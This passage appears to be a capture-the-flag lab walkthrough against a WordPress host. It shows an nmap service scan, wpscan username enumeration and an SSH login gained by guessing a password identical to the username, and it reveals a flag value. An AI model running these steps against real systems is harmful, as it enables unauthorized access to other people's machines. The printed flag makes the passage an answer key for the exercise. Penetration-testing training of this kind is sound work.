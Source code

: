    Note that hosts `192.168.1.110` and `192.168.1.115` are up, in particular. This solution focuses on the former.

2. Document all exposed ports and services.

  ```bash
  $ nmap -sV 192.168.1.110
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 16:38 PDT
  Nmap scan report for 192.168.1.110
  Host is up (0.00082s latency).
  Not shown: 995 closed ports
  PORT    STATE SERVICE     VERSION
  22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
  111/tcp open  rpcbind     2-4 (RPC #100000)
  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  MAC Address: 00:15:5D:00:04:10 (Microsoft)
  Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 11.78 seconds
  ```

   Note, in particular, that port `80` is open.

3. Enumerate the WordPress site. One flag is discoverable after this step.
     - **Hint**: Look for the `Users` section in the output.

   ```bash
   # Use wpscan to enumerate users and vulnerable plugins
   $ wpscan –-url http://192.168.1.110/wordpress -eu
   # Generates a lot of output. The important part is as follows:
   [+] User(s) identified:
   [+] steven
    | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
    | Confirmed By: Login Error Messages (Aggressive Detection)

   [+] michael
    | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
    | Confirmed By: Login Error Messages (Aggressive Detection)
   ```

   These two usernames can be used to gain a user shell.

4. Use SSH to gain a user shell. Two flags can be discovered at this step.
     - **Hint**: Guess `michael`'s password. What's the most obvious possible guess?

    ```bash
    # Log in as michael
    $ ssh michael@192.168.1.110
    Enter password: michael
    # Move to the website root directory to find flag2
    michael@target1:~$ cd /var/www
    michael@target1:/var/www$ ls
    flag2.txt
    michael@target1:/var/www$ cat flag2.txt
    flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    # Search for the word `flag` in all files to find flag1
    michael@target1:/var/www$ grep -RE 'flag\d' ./html/
    # Prints very long output -- but, the very last line contains flag1!